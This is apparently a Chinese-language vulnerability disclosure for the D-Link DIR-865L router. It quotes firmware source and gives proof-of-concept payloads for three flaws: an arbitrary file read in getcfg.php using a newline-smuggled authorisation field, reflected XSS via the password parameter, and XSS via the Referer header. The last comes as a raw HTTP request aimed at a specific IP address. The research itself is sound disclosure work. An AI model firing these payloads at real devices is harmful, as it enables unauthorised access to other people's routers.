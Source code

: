 ###  任意文件读取getcfg

getcfg.php

``` 
if(is_power_user() == 1)
	{
		/* cut_count() will return 0 when no or only one token. */
		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
		$SERVICE_INDEX = 0;
		while ($SERVICE_INDEX < $SERVICE_COUNT)
		{
			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
			if ($GETCFG_SVC!="")
			{
				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
				/* GETCFG_SVC will be passed to the child process. */
				if (isfile($file)=="1") dophp("load", $file);
			}
			$SERVICE_INDEX++;
		}
	}
```

POC

``` 
SERVICES=DEVICE.ACCOUNT&aaa=%0aAUTHORIZED_GROUP=1
```



![image-20191031111027019](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031111027019.png)

可以读任意.xml.php文件

### 2.XSS

#### （1）文件位置parentalcontrols/register.php

```
			var Response = "<? echo $Response; ?>";
			function Body() {}
			Body.prototype =
			{
				OnLoad: function()
				{
					if(Response == "Unauthorized")
					{
						document.getElementById("authorize").style.display = "block";
					}
					else if(Response == "InternetUnreachable")
					{
						document.getElementById("InternetUnreach").style.display = "block";
					}
					else if(Response == "Devicebinded")
					{
						document.getElementById("device_binded").style.display = "block";
					}									
				},
				LoginSubmit: function(password_type, overwrite_deviceid)
				{
					if(password_type === "new") var pwd = document.getElementById("loginpwd").value;
					else var pwd = "<? echo $_GET["password"];?>";
					self.location.href = "/parentalcontrols/register.php?username=" + "<? echo $ADMIN_name;?>" + "&password=" + pwd + "&overriteDeviceID=" + overwrite_deviceid;
				},
				window_close: function()
				{
					window.opener=null;   
					window.open("","_self");   
					window.close();
				}						
			};
			var BODY = new Body();	
```

* else var pwd = "<? echo $_GET["password"];?>"; 构造即可直接触发

![image-20191031111539987](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031111539987.png)



#### 2.文件位置/htdocs/webinc/js/tools_fw_rlt.php

代码

```php
		$referer = $_SERVER["HTTP_REFERER"];
		......
		$title = i18n("Language Pack Upload Fail");
		$message = "'".i18n("The language pack image is invalid.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
```

$referer赋值点比较多，所以触发点也比较多。

POC

``` 
POST /tools_fw_rlt.php?PELOTA_ACTION=fwupdate HTTP/1.1
Host: 116.50.243.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Referer: </script><script>alert(11111)</script><script>
Cookie: uid=ScrWKA5Tlb
Connection: close
Upgrade-Insecure-Requests: 1

ACTION=langclear
```

![image-20191031205417181](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031205417181.png)
